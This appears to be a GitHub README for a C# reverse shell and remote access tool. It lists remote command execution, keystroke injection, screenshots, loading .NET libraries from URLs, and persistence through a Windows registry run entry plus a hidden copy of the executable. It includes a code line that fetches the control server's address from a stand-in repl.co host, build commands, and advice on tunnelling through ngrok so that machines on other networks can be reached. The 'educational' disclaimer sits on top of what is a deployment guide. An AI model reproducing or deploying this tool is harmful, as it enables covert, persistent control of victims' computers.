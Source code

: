 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : <a target="_blank" href="https://github.0xsql.repl.co/reverse_shell.gif">reverse_shell.gif</a>
<img src="https://github.0xsql.repl.co/reverse_shell.gif">

##### - MessageBox and SendKeys
If You Don't see : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<img src="https://github.0xsql.repl.co/send_keys_and_msgb.gif">
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
#### check for in this repositery remote-desktop.gif
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.
.
